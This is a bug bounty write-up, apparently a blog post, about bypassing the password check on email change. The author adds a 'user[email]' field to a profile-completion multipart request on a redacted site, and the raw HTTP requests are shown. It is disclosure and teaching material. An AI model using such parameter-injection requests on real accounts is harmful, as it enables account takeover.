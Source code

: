 ```yaml
---
layout: post
title: Bypassing Email change verifications
subtitle: 
tags: [write-up, incorrect authorization, low, takeaways, 250$]
comments: false
---
```


### Background

Many companies require you to enter your password to update your email. This is because if an account is compromised by cookie theft (XSS for instance), a determined attacker still needs to update the email address to reset the password and achieve a permanent account takeover.

Besides, it is a good practice to send a verification link to the new email to make sure that a user doesn't update his email address to an address he doesn't own, pretending to be someone else.

This program had the described above protections in place.

Changing email address requires a password:

```shell
PUT /users/1337/update_email HTTP/1.1
Host: app.redacted.com

{
    "current_password":"guessing",
    "email":"attacker@gmail.com"
}
```

### Description

I noticed while setting up my account that a "Complete your profile" step was sending a strange request:

```
POST /complete_profile HTTP/1.1
Host: app.redacted.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy4NAam5eM2a0BFbF

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="utf8"
✓

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[title]"

CEO
------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[phone]"

------WebKitFormBoundaryy4NAam5eM2a0BFbF--
```

The application usually operates standard CRUD operations with REST API but here, the request is using `Content-Type: multipart/form-data`. Another thing to notice here is that the path does not respect REST API. **As a bug hunter, this should be a hint that something might be vulnerable.**

Here are different things I tried:
  - Add `user[is_admin]` to achieve privilege escalation => Failed
  - Add `user[user_id]` of another account to the request to achieve an IDOR => Failed
  - Add `user[password]` to update password without knowing existing password => Failed

And finally:
  - Add `user[email]` to update email without knowing existing password => Success

```
POST /complete_profile HTTP/1.1
Host: app.redacted.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy4NAam5eM2a0BFbF

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="utf8"
✓

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[title]"

CEO
------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[phone]"

------WebKitFormBoundaryy4NAam5eM2a0BFbF
Content-Disposition: form-data; name="user[email]"

attacker@gmail.com
------WebKitFormBoundaryy4NAam5eM2a0BFbF--
```

### Takeaways

 - Don't rush into the signup process. Take a close look at every request using Burp.

    I usually Intercept everything in Burp during signup. It can take me up to 15 minutes only to complete this step but I truly believe this is time well invested if I plan to stick with the program. I use this as an opportunity to gather information about the technologies used by the application.

    Internally, different teams are often responsible for the core application and signup/growth/user conversion. This means different code paths could be used in the backend resulting in bypassing usual protections. Add to that communication issues between teams and you have the perfect cocktail for vulnerabilities to raise.

 - Learn what is important for the company
    
    In this particular case, because there are measures in place to prevent updating emails without the password I decided to report. I later found a way to update the email address only once during signup, allowing someone to pretend to be someone else. This time I decided not to report as I know that it would not be of any interest and could be chained with another bug to increase its impact.


### Summary

 - **Weakness**: Incorrect Authorization
 - **Reward**: 250$